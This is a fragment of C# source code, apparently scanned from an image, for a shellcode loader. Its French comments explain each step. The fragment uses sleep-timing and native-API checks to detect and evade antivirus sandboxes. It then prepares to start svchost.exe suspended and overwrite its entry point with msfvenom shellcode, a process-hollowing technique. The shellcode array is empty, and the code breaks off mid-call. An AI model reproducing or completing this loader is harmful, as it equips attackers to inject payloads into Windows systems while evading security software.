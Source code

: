 ```csharp
        
				//On charge les api windaube
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes,
            IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
            [In] ref StartupInfo lpStartupInfo, out ProcessInfo lpProcessInformation);
        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass,
            ref ProcessBasicInfo procInformation, uint ProcInfoLen, ref uint retlen);
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer,
            int dwSize, out IntPtr lpNumberOfbytesRW);
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern uint ResumeThread(IntPtr hThread);
        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();
        public static void runner ()
        {
            
            //Petit timer pour check si il y a un AV. Les AV accèlerent les wait, donc si le temps est différent, avant/après le wait, on quitte
            DateTime t1 = DateTime.Now;
            Sleep(2000);
            double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
            if (t2 < 1.5)
            {
                return;
            }
            
            //Les AV ne savent pas gérer les native API. Du coup souvent ça retourne une erreur. Si c'est le cas, on quitte
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }
            byte[] buf = new byte[585] {
            
            //shellcode généré avec msfvenom
            
 };
           
          
            //Ici les choses compliquées commencent, mais pour faire simple, on lance svchost dans un état suspendu, on trouve son entrypoint, on remplace par notre shellcode et on resume son exécution
            StartupInfo sInfo = new StartupInfo();
            ProcessInfo pInfo = new ProcessInfo();
            bool cResult = CreateProcess(null, "c:\\windows\\system32\\svchost.exe", IntPtr.Zero, IntPtr.Zero,
```